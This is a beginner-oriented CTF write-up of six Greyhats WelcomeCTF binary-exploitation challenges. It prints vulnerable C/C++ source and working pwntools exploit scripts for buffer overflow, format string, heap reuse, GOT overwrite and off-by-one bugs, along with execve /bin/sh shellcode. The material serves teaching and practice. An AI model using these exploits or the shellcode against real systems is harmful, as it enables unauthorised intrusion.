






## Foreword
Yes, I'm alive. It's been 2 years but I'm back, finally. And I'm in school again which means my brain will be restarting after the past 2 years of brain rot serving National Service. What better way to relight the light blub in my head than to do a fun and (generally) easier CTF like the Greyhats WelcomeCTF which is designed for beginners and (somewhat) experienced players. I will just cover all the pwn challenges that I managed to clear in here, and if there're any other misc challenges or challenges from other categories that I feel like writing about I'll probably make a separate post about them. I'm following Greyhats' convention: 🍼 emoji means the challenge is meant to be easy. Disclaimer before yall start reading, my solutions are in no way elegant, please go easy on me yeah... (challenge setters if you're reading this, please forgive me if I did not use your intended solution)

# ScissorsPaperPwn 🍼 | 83 solves 50 pts
Starting off nice and easy is ScissorsPaperPwn. The source code is provided, and upon opening up it seems like a simple CLI game-styled challenge. It's a game of scissors paper stone, but the computer is programmed to always win. The goal is to win this game and the flag would be given to us. The most important function, main() is as shown below:
```c
char buf[32];
int score = 0, result;
int playerChoice, aiChoice;

int main() {
    init();

    while (score < 10) {
        printf("Current score: %d\n", score);
        printf("Choose:\n");
        printf("0: Scissors\n");
        printf("1: Paper\n");
        printf("2: Stone\n");

        memset(buf, 0, 32);
        printf("Your choice: ");
        gets(buf);
        playerChoice = atoi(buf);
        aiChoice = generateAIChoice(playerChoice);

        if (aiChoice < 0) {
            continue;
        }

        result = getResult(playerChoice, aiChoice);
        switch (result) {
            case 0: // Draw
                printf("Draw!\n\n");
                break;
            case 1: // Win
                printf("You win! How??\n\n");
                score++;
                break;
            case -1: // Lose
                printf("You lose! Ha >:)\n\n");
                break;
        }
    }

    printf("You win! How did you even %d points?!?\n", score);
    printf("As promised, here is the flag:\n");
    printf(FLAG);

    return 0;
}
```

It's immediately obvious that the vulnerable function here is `gets(buf)` which doesn't do any checks, allowing us to attack it via buffer overflow. The size of the buffer is 32 bytes. Honestly speaking, I don't think there's much to go into for this one because the moment I opened up GDB to test out a basic overflow `'a'*33`, it caused the while loop to break due to the 1 byte overflow and the code reached this portion:
```c
printf("You win! How did you even %d points?!?\n", score);
printf("As promised, here is the flag:\n");
printf(FLAG);
```

I tested the same solution on the host and it gave me the flag.
```py
#!usr/bin/env python
from pwn import *
r = remote("34.87.186.254",21212)
payload = b"a"*33
r.sendline(payload)
r.recvuntil(b'here is the flag:')
r.recvline()
print("Flag: "+r.recvline())
r.close()
```




Flag: `greyhats{Game_hacker_in_the_making?}`

Sweet and simple, the purest form of pwn. Have a picture of a cute cat as a bonus :)


# Complete Me 🍼 | 19 solves 460 pts
This challenge was interesting but also pretty easy to tackle. Similarly, the source code and an ELF has been provided:
```c
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>
#include <stdint.h>

int main() {

	setbuf(stdin, 0);
	setbuf(stdout, 0);

	void (*print_flag)(void);
	char* code = mmap(0, 0x1000, 7, MAP_SHARED | MAP_ANONYMOUS, 0, 0);
	print_flag = (void(*)(void))code;

	printf("The flag is: ");
	fgets(code, 0x1000, stdin);
	print_flag();

}
```

This is literally just a program that would take your inputted bytes, place them into memory and then execute it. There are no checks, no traps, nothing that can really be seen here. So let's just try sending shellcode via our input:
```py
#!usr/bin/env python
from pwn import *

r = remote("34.87.186.254",21238)

shellcode = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

r.recvuntil(": ")
r.sendline(shellcode)
r.interactive()
```

Yes, I just used some old shellcode I had lying around. There's also the "cleaner" way of doing this by making use of pwntools:
```py
shellcode = asm(pwnlib.shellcraft.amd64.linux.sh())
```

Or if you wanted to flex:
```py
shellcode = asm("""
mov rax, 0x3b
mov rbx, 0x68732f6e69622f
push rbx
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall
""")
```

Either way, we input our shellcode and we pop a shell, after which we can simply `cat flag.txt` and bring it home.


Flag: `greyhats{y0u_4r3_4n_4553mb1y_pr0}`

# fsa 🍼 | 19 solves 460 pts
Good ol' format string. Sourcecode `fma.c` is provided for this challenge and this is what we see inside:
```c
#include <stdio.h>

char flag[] = "greyhats{REDACTED}";

void vulnerable_function() {
    char buffer[100];
    printf("Flag is at %p\nEnter your input: \n", &flag);
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);
    printf("\n");
}

int main() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
    vulnerable_function();
    return 0;
}
```

We can see that the vulnerable function here is aptly named `vulnerable_function()` which has an unformatted `printf(buffer)`. This means we `printf()` will effectively execute whatever format string we pass it. We can also see that the pointer to the flag would be printed for us in the first line before it asks for our input. We now pretty much have all the pieces of the puzzle should nothing else go wrong.

The first step usually to any format string is I'd try to check how far down the stack my input variables are being stored. We first do a simple input to find out more about our leakable stack:


We can see that starting from the 6th item it is already regurgitating what we're passing to it. Let's clean it up a bit as a mini proof-of-concept:


Perfect. Now all we need to do is to grab the flag address that is given to us, feed it to the app and let format string bring home the flag for us.
```py
#!usr/bin/env python
from pwn import *

r = remote("34.87.186.254",25236)

r.recvuntil("at ")
payload = p32(int(r.recvline().rstrip("\n"), 0))
payload += "%6$s"

r.recvuntil(": ")
r.sendline(payload)
r.recvuntil("greyhats")
print("Flag: greyhats"+r.recvline())
```


Flag: `greyhats{f0rmAt_5trin9_vuln3rabi1ities_4r3_d4ngerous}`

# filelen | 15 solves 476 pts
This is where the challenges start to require some looking into. We are provided with the sourcecode and a binary. The following is the `main()` function:
```c
int main() {
	char file_name[0x50];
	init();

	// measure file
	printf("Which file do you want to measure?\n> ");
	read(0, file_name, 0x50);
	char* nl = strchr(file_name, 0xa);
	if (nl)
		*nl = 0x0;
	measure(file_name);

	// get name
	printf("The file is %ldcm long!\n\n", flag_len);
	char* name = get_name();
	printf("Goodbye %s!\n", name);
}
```

We can see that the program would ask us for a file that we wanted to "measure". Afterwards it would call the `get_name()` function, store a (presumably) string in `name` and `printf()` some stuff afterwards.

Let's take a look at `measure(file_name)` first.
```c
void measure(const char* name) {
	FILE *f = fopen(name, "r");
	if (f) {
		fseek(f, 0, SEEK_END);
		flag_len = ftell(f);
		fclose(f);
	}
}
```

Simple enough. Open file with name matching provided string with read permissions, seek through the file and return the length of the file. We could theoretically ask for the length of, say, `flag.txt`, which would dump all its contents on the heap. The heap is never actually properly cleared due to it needing to be efficient. We will get back to this later.
There's one more function that we're interested in, which is `get_name()`, and it is as such:
```c
char* get_name() {
	unsigned int size = 0;
	printf("Btw what is your name?\n");
	printf("Length: ");
	scanf("%u", &size);
	if (size <= 1 || size > 0x100) {
		printf("Invalid name length!");
		exit(0);
	}
	getchar();
	char* name = malloc(size);
	printf("Name: ");
	read(0, name, size);
	char* nl = strchr(name, 0xa);
	if (nl)
		*nl = 0x0;
	return name;
}
```

This function first asks for the length of your name, which is interesting to say the least. It makes sure that the length is not less than or equals to 1, and is not greater than 0x100. It then uses the `read(0, name, size)`. `read()` does not put a nullbyte at the end of the input. This means we could potentially cause an information leak with this. If the string that `read()` obtains does not have a nullbyte, the next `printf()` or `puts()` that is used to output the buffer would just keep going until it reaches a nullbyte. Recall in the `main()` function earlier the following code is used:
```c
char* name = get_name();
printf("Goodbye %s!\n", name);
```
Nice, let's try something on the challenge host first.


Ok so we can dump `flag.txt` onto the heap. Since the variable `size` is passed to `read()`, we will just input, say, 100. And then we will pass an input with terminating nullbyte, and let the `printf()` sled run its way through.
This is also explained quite well by [Naetw's](https://github.com/Naetw/CTF-pwn-tips) amazing cheatsheet on pwn challenges:



Ok let's try out our concept:
```py
#!usr/bin/env python
from pwn import *
r = remote("34.87.186.254",21235)
r.sendlineafter("> ", "flag.txt")
r.sendlineafter("Length: ", "100")
r.sendafter("Name: ", b'a'*1)
r.recvuntil("Goodbye a")
print("Flag: g"+r.recvline())
```


And there's our flag.

Flag: `greyhats{th3_fl4g_w4s_fr33_bu7_y0u_br0ught_1t_b4ck_bY_h34p_r3us3!}`

# Where GOT shell? | 11 solves 488 pts
From the name, I kinda assumed that it was a GOT table rewrite. This time round only the binary is provided to us, the source code isn't provided. Let's run the program to see what it does:


Ok this program seems to just take whatever address we pass it and directly write to said address. We can run a quick `checksec` on the binary to see if it has any protections.


Partial RELRO, no canary, no PIE. That means that whatever addresses that I get, I get to use. Nice. Since this already set itself up as a GOT rewrite, I'm looking out for the function that I can overwrite as well as the function that I will overwrite with. Let's fire up IDA.



Roughly we can see that the program basically runs `scanf()` for `%lx`, `scanf()` for `%lx` again, then write the second input into the first input address. Pretty straight forward. Let's look at the function table.


There is a `win()` function at `0x401176`. The `win()` function will give us the flag:


Ok. Now we have the pieces in place. We can see earlier in the `main()` function that a final `puts("Okay, exiting now...\n");` is called at the end before the program exits. This means theoretically we could use the 2 inputs to overwrite `puts()` in the GOT with the address of `win()`, then as the program exits, `win()` would be called. Let's try out our theory:
```py
#!usr/bin/env python
from pwn import *

e = context.binary = ELF("./got_shell")

puts = hex(e.got.puts).lstrip("0x")

win_addr = "401176"

r = remote("34.87.186.254",26879)

r.recvline()
r.recvline()
r.sendline(puts)
r.recvline()
r.sendline(win_addr)
r.recvline()
print("Flag: "+r.recvuntil("}"))
r.close()
```

We run our code and voila,


We obtained the flag.

Flag: `greyhats{G0t_C4nc3r_y3T?_ad8123fa}`

# mew | 6 solves 497 pts
The final challenge that I solved is a lot more complex that the previous few, at least to me. This one is a C++ challenge, which made it slightly more annoying to do. We are provided the source code, binary and makefile of the challenge. Let's take a look at our source code first. From a glance, it looks like a simple calculator as the challenge describes itself, with 5 options: read a number, write a number, sort numbers, re-initiate running mean and print statistics (running mean). Read/write a number would just accept an index input followed by an integer input. It's worthy to note that the code was handled this way:
```c++
#define MAXSZ 100

...

int index; num value;
std::cout << "Enter index: ";
std::cin >> index;
if (index >= MAXSZ || index < 0) {
    std::cout << "Bad index!" << std::endl;
    continue;
}
std::cout << "Enter value: ";
std::cin >> value;
ARR[index] = value;
```

It does a direct cast of `std::cin` input to an integer variable `value` without any error handling, which means that we would not be allowed to input any non-integers lest we be sent into an infinite loop. While scouring through the code, I noticed this interesting thing in the `sort()` function.
```c++
typedef unsigned long long num;

void sort(num* arr, num len) {
    num tmp = 0;
    for(num i = 0; i <= len; i++) {
        for(num j = i; j <= len; j++) {
            if (arr[i] < arr[j]) continue;
            tmp = arr[i];
            arr[i] = arr[j];
            arr[j] = tmp;
        }
    }
}
```

It loops until `<= len`, instead of `< len`. But in our `main()` function when `sort()` is called, the following is passed to `sort()`.
```c++
sort(ARR, MAXSZ);
```

Now this is interesting. As we saw above, `MAXSZ` is defined as 100, which **is the size of the array!** This means that if we sorted the array with these variables, we could potentially access an object on the stack at arr[100] if, say, said object is sorted into the array and our in-array object is sorted to index 100. Since arrays work just like pointers to the memory, this is definitely possible.

I wanted to test a proof of concept, so I entered an incredibly big number (16 digts) `9999999999999999` into the array and called the `sort()` function. When I looked at index 99 of the array afterwards, sure enough:



But what is this mysterious value that I managed to obtain? If we convert the number to base 16, we get the following "number" `7ffee0b67d68`. Now this looks suspiciously like a pointer to a function to me, so I fired up gef to play around. This is what happens if we do the above and then select "Statistics" on the calculator, which would make a call to `running_mean`.


A segfault in the application occurs. It seems like the location that I overwrote at `*arr+100` was affecting program execution when it tried to `mov rcx, QWORD PTR[rax]` after calling `running_mean()`. This is interesting because we can show the registers at this point of time:



When we convert the address of the `rax` register to decimal, we get back `9999999999999999`, which was the number we inputted! This means that our concept worked and sorting the array with a value larger than `7ffee0b67d68` would replace `7ffee0b67d68` with our desired pointer. I then tried to see what would happen if I just passed along the address of `win()`, which we can find with `disassem win` in gdb.


We convert `0x5555555553f4` (at the very beginning of the `system()` call where `/bin/sh` is first loaded into a register) to decimal to get `93824992236532`, and we replace our input with this to see if it does anything.



Another segfault. This time the address changed. It's trying to access the address `0x5555aaaab22a`. Hmm, at this point I was thinking it could be an offset issue. So I found the offset between the 2 pointers which in this case was `0x55555e36`, and then I subtracted this offset from my input address. This gave me a new input value of `93823560578494`. I then substituted this value and tested again.


I spawned shell! Now all that I need to do is to clean up the process and try it on the host machine. I would access shell then simply `cat flag.txt` for the flag.
```py
#!usr/bin/env python
from pwn import *

r = remote("34.87.186.254",24985)

win_input = "93823560578494"

# input win() address
r.sendlineafter("> ","1")
r.sendlineafter(": ","0")
r.sendlineafter(": ",win_input)
# call sort
r.sendlineafter("> ","3")
# call statistics
r.sendlineafter("> ","5")
r.recvline()
# home free
r.sendline("cat flag.txt")

print("Flag: "+r.recvuntil("}"))
r.close()
```

And just as expected


The flag is in front of us.

Flag: `greyhats{mewtwo_19211231}`

# Conclusion
There were still 2 challenges, Late For School!! and Secure Blob Runner that I wasn't able to complete largely due to a mix of my lack of experience and rusty abilities, though I strongly believe that they are very much solveable. The concept behind the challenges were all interesting and these 2 challenges provide a pretty clear path to how they're meant to be solved, but I couldn't get them in time. There were a few other simple non-pwn challenges that I solved as just a short break in between staring at code and terminal windows, I will probably do a very short all-in-one writeup for those as well.

# Afterword
I enjoyed this CTF quite a bit as I felt the pwn challenges were all pretty fun and simple. Even if the challenges weren't made to be complicated, sometimes we should all appreciate being able to go back to our pwn roots and enjoy the simple challenges. No complicated obfuscation and cancerous canaries to shoot down. No sandboxes to escape and less hair to tear out. :)

I would like to thank the talented individuals at NUS Greyhats for coming up with the challenges and hosting this CTF for us. Even if this CTF does not have any prize money, it was still genuinely fun to do and I wouldn't mind doing it again any other day just for practice.

Thanks for reading.

**EDIT (Sept 2023): Just for clarity, I joined NUS Greyhats shortly after this post was published, but up until this post I still wasn't a member. Hence, in the next post onwards, I talk about being a part of NUS Greyhats**